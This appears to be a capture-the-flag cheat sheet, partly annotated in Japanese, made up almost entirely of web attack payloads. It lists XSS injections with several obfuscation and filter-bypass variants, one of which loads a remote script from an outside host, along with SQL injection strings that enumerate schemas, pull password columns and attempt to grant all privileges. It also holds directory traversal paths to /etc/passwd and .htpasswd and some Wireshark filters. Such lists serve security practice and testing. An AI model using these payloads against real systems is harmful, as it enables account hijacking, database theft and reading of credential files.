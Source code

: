 #XSS

* basic
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>

* image
<img src="xss" onerror="alert('XSS')">

* script
html += "<img src='/static/level3/cloud"'onerror="alert('XSS')"'".jpg' />";
');alert('XSS')('

* on url
javascript:void(document.forms[0].p2.childNodes[1].innerText='<script>alert(document.domain)</script>');

* svg
<svg onload=alert("xss!")>

* mouseover
" onmouseover="alert(document.domain);" x="

* escape
<script>alert('XSS')</sciprt>
"><script>alert(document.domain)</script>
" onmouseover = " alert('\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E')"
re"><script>alert(\x64\x6F\x63\x75\x6D\x65\x6E\x74\x2E\x64\x6F\x6D\x61\x69\x6E)</script>
" onmouseover = " alert('\x58\x53\x53') "
"/onmouseover="window['aler'+'t']('XS'+'S')">

* data uri scheme
<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>
<object data="data:text/html,<script>alert('XSS2')</script>"></object>

* space
<style/onload    =    !-alert&#x28;document.domain&#x29;>

* vbs
<img language=vbs src=<b onerror=alert#1/1#>

* short
<q/oncut=alert()
<q/oncopy=alert()

* unicode escape
<script>\u0078=\u0061\u006c\u0065\u0072\u0074; \u0078("\u0068\x61\150\u0061");</script>

* gsub
"><sscriptcript>alert('XSS')</sscriptcript>
document.write(); \x3cscript\x3ealert(document.domain);\x3c/script\x3e
p1=%A2%BE%BCscript%BEalert(document.domain);%BC/script%BE
background-color:#f00;background:url("javascript:alert(document.domain);");

<p id=1 onmouseover=alert(document.getElementById(1).innerHTML)>XSS</p>
"(function (text){if(!f)a(text);if(text==='XSS'){if(!f){f=1;window.setTimeout(function(){f=0},100);if(li)li.innerHTML=t}else{f=0;cs=[5010175210,5010175222,5010175227,5010175166,5010175224,5010175218,5010175231,5010175225,5010175166,5010175223,5010175213,5010175140,5010175166,5010175199,5010175194,5010175197,5010175178,5010175192,5010175169,5010175191,5010175169,5010175146,5010175187,5010175169,5010175146,5010175218,5010175149,5010175180,5010175210,5010175169,5010175187,5010175146,5010175216];t='';for(i=0;i<cs.length;i++){t+=String.fromCharCode(cs[i]^0x123456789+123456789)}appendTweet('<b>'+t+'</b>')}}else{f=0}})"

* jquery
<img src=1 onerror=$.getScript('http://vuln.moe/web/xss/xss.js')>


# SQLi
* basic
' or 1=1;--
' or 1=1;#
' or '1

* offset
' or 1=1 offset 1;--

ID: \
PW: OR 1--
ID: ' ||
PW: OR 1--

* union
' or 1=1 union select sql,1,1 from sqlite_master;--
' or 1=1 union select sql,1,1,1,1,1,1,1,1,1 from sqlite_master;--
' or 1=1 union select password, name, 1 from users_hogefuga;--
SELECT header, txt FROM news UNION ALL SELECT name, pass FROM members 

# null の数を変えてカラム数を特定
' and 1=0 UNION ALL SELECT null,null,null#
# テーブル一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_SCHEMA,TABLE_NAME ,TABLE_COMMENT FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE') ;#
# カラム一覧を取得
' and 1=0 UNION ALL (SELECT TABLE_NAME,COLUMN_NAME,DATA_TYPE FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME IN('func') ORDER BY TABLE_NAME) ;#
' and 1=0 UNION ALL (SELECT 1, 1, GRANTEE FROM INFORMATION_SCHEMA.SCHEMA_PRIVILEGES); #

' and 1=0 UNION ALL SELECT null,null,null FROM user;#
' and 1=0 UNION ALL SELECT null, current_user(), version();#
' and 1=0 UNION ALL GRANT ALL PRIVILEGES ON *.* TO username@'%'#
' and 1=0 UNION ALL SELECT null, null, password FROM mysql.user#
SCHEMA_PRIVILEGES
fuga' OORR '1
5.1.73
https://websec.wordpress.com/2010/12/04/sqli-filter-evasion-cheat-sheet-mysql/


# perl json sqli
{ "name" : "a", "a\") OR 1 #" : "a" }

# Wire shark packete filter
icmp.type == 8
http.host contains google
tcp.flags == 0x02
tcp.flags == 0x12
tcp.flags == 0x14
http.response
http.request

udp contains 33:27:58
* パケットサイズ
frame.len == 18
data.data
frame contains 17
(tcp.flags.reset == 1) && (ip.id > 0)

# directory traversal
view.php?file=../index.php
?lang=php://filter/convert.base64-encode/resource=index.php
../index
../index.php
/etc/passwd
../../../etc/passwd
/etc/apache2/httpd.conf
.git
sitemap.xml
robots.txt
%00
.htpasswd%00


# dump header grep
curl --dump-header - http://ringzer0team.com/challenges/43 2> /dev/null |grep needle
